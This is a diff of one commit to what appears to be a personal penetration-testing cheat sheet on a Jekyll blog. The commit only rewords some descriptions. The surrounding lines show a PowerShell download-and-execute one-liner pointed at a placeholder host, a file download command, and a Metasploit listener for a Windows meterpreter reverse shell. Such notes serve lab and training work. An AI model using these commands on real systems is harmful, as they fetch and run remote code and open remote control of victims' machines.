

Before and after one commit to datahackare/warz0ne, a Jekyll site: the page built from _posts/2021-03-31-CheatSheet.md, in a window 1280 px wide and 900 px high, scrolled down 492 px. Shown: the whole window, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-03-31-CheatSheet.md

````diff
--- a/_posts/2021-03-31-CheatSheet.md
+++ b/_posts/2021-03-31-CheatSheet.md
@@ -16,13 +16,13 @@ A good reference for Windows local priv esc.
 
 ### [](#header-3)Download files
 
-Read and execute a file from a weblink.
+Read and execute a file from a weblink with powershell.
 
 ```
 Powershell IEX(New-Object Net.WebClient).DownloadString('http://IP:PORT/FILENAME')
 ```
 
-Download and output a file.
+Download and output a file from powershell.
 
 ```
 Powershell Invoke-WebRequest -Uri IPNUMMER:PORT/FILNAMN -OutFile FILENAME
@@ -32,7 +32,7 @@ Powershell Invoke-WebRequest -Uri IPNUMMER:PORT/FILNAMN -OutFile FILENAME
 
 ### [](#header-3)Listener in Metasploit
 
-Quick oneliner for setting up a listener in Metasploit for reverse shell for Windows.
+Quick oneliner for setting up a listener in Metasploit for reverse shell for Windows. In this example it's a meterpreter listener.
 
 ```
 sudo msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 4444; set ExitOnSession false; exploit -j"
````
